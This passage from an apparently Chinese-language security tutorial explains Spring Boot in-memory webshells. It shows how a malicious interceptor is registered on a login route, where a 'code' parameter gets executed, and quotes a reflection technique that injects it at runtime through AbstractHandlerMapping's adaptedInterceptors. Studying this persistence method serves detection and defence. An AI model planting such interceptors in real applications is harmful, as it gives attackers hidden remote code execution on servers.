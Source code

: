     

### 0x0403 注册拦截器

实现拦截器后还需要将拦截器注册到spring容器中，可以通过implements
WebMvcConfigurer，覆盖其addInterceptors(InterceptorRegistry registry)方法

    
    
    package com.evalshell.springboot.config;  
      
    import com.evalshell.springboot.interceptor.VulInterceptor;  
    import org.springframework.context.annotation.Configuration;  
    import org.springframework.web.servlet.config.annotation.InterceptorRegistry;  
    import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;  
      
    @Configuration  
    public class InterceptorConfig implements WebMvcConfigurer {  
        @Override  
        public void addInterceptors(InterceptorRegistry registry) {  
          //这里是配置需要拦截的路由  
            String[] VulPathPatterns = {"/user/login"};  
      
            registry.addInterceptor(new VulInterceptor()).addPathPatterns(VulPathPatterns);  
        }  
    }  
      
    

可以看到达到的效果是访问正常路由，不会影响正常业务。如果是带有code的参数会执行code里面的代码，从而突破网关的限制。

那么我们现在已经明白了如何在springboot中进行拦截，并执行我们的内存马，但是还是有一个问题，如何注入我们的内存马？

在这里根据landgrey大佬的思路：

> spring boot 初始化过程中会往 `org.springframework.context.support.LiveBeansView` 类的
> `applicationContexts` 属性中添加
> `org.springframework.boot.web.servlet.context.AnnotationConfigServletWebServerApplicationContext`
> 类的对象。bean 实例名字是 `requestMappingHandlerMapping` 或者比较老版本的
> `DefaultAnnotationHandlerMapping` 。那么获取 `adaptedInterceptors` 属性值就比较简单了：
>  
>  
>     org.springframework.web.servlet.handler.AbstractHandlerMapping
> abstractHandlerMapping =
> (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");  
>     > java.lang.reflect.Field field =
> org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");  
>     > field.setAccessible(true);  
>     > java.util.ArrayList<Object> adaptedInterceptors =
> (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);  
>     >

我总结下就是：

  * 首先获取应用的上下文环境，也就是`ApplicationContext`
  * 然后从 `ApplicationContext` 中获取 `AbstractHandlerMapping` 实例（用于反射）
  * 反射获取 `AbstractHandlerMapping`类的 `adaptedInterceptors`字段
  * 通过 `adaptedInterceptors`注册拦截器
